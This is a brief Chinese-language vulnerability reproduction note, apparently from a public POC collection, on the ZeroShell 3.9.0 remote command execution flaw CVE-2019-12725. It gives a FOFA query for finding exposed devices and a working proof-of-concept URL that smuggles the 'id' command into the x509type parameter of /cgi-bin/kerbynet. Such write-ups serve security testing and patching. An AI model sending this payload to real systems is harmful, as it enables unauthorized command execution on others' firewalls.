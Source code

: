 # ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
ZeroShell < 3.9.0
```

## FOFA

```
app="Zeroshell-防火墙"
```

## 漏洞复现

登录页面如下



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162258497.png)

验证的POC为

```plain
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162258777.png)
